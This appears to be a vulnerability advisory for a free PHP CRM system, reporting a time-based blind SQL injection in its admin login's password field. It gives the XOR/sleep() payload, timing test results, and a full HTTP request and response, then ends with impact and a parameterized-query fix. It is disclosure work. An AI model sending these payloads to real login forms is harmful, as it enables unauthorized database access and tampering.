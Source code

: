 CMS source code url: https://www.sourcecodester.com/php/15895/simple-customer-relationship-management-crm-system-using-php-free-source-coude.html

URL: http://127.0.0.1/php-scrm/admin/ \
Perameter: password

Attack Details: \
URL encoded POST input password was set to 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z

Tests performed: \
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.031 \
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.029 \
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.03 \
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.027 \
0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.018 \
0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.026 \
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.459

HTTP Request:
```
POST /php-scrm/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://192.144.217.51/php-scrm/
Cookie: PHPSESSID=7es0mk87rhg4ue4vq93d1316df
Content-Length: 90
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Host: 192.144.217.51
Connection: Keep-alive

email=testing%40example.com&login=&password=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z
```

HTTP Response:
```
HTTP/1.1 200 OK
Date: Fri, 17 Feb 2023 13:37:38 GMT
Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/8.2.0
X-Powered-By: PHP/8.2.0
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 49
Keep-Alive: timeout=5, max=96
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<script>window.location.href='login.php'</script>
```
The impact of this vulnerability:\
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

How to fix this vulnerability:\
Use parameterized queries when dealing with SQL queries that contain user input. Parameterized queries allow the database to understand which parts of the SQL query should be considered as user input, therefore solving SQL injection.
